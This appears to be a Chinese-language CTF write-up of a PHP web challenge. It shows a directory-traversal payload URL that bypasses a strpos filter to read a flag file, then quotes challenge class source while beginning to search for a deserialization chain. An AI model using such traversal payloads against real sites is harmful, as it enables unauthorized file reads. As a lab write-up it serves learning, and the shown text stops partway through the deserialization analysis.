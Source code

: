 # 解法一、目录穿越
这里我还试了下strpos的绕过，包括换行(%0a)、大小写、数组和目录穿越，都无回显，于是暂时放弃了从这里下手。(主要也是想到这样做完全没用到backdoor.php,觉得不太可能，结果还真可以)
但后面证明目录穿越是可以的，当时是输错了url。。。我当时猜测flag是在source/flag和/flag或者加上后缀名，因为flag在字符串开头是可以的，说明其只能在`$target`字符串后面。于是利用目录穿越构造payload为`http://124.16.75.162:31014/index.php?do=search&file=flag/../../../../../../../../flag`成功得到flag,但当时好像是输错url了没发现回显，以为这样做不行，于是去试反序列化了
![20220611232447](https://s2.loli.net/2022/06/11/Wi5ZPhEo94tJnDe.png)

# 解法二、反序列化
看到backdoor是反序列化，肯定要去读取一下题目给出的类，而且还已经包含在index.php里了。不过我刚接触反序列化还不太熟悉，读了源码也没发现什么，反倒用php的内置类去试了好久，实在不应该
`?do=search&file=source/class/User.class.php`:
```php
class User
{
    public $user;
    public $hechengyu;
    public $trash;
    public $db;
    public $tbUser;
    public $string;
    function __construct()
    {
       if (isset($_SESSION)) {
           if (isset($_SESSION['user'])){
               $this->user =  $_SESSION['user'];
           }
           if (isset($_SESSION['trash'])){
               $this->trash = $_SESSION['trash'];
           }
           if (isset($_SESSION['hechengyu'])) {
               $this->hechengyu = $_SESSION['hechengyu'];
           }
       } else {
           session_start();
       }
       $this->tbUser = 'users';
       $this->db = DBConnect();
    }
    function convert() {
        return $this->hechengyu->update();
    }
    function __toString() {

        return $this->string->convert();
    }
}
```
`?do=search&file=source/class/DB.class.php`:
```php
class BlueDB
{
    public static function DB($databaseType = 'mysql')
    {
        switch (strtolower($databaseType)) {
            case 'mysql':
                return new DB_Mysql;
                break;
            default:
                return false;
                break;
        }
    }
```
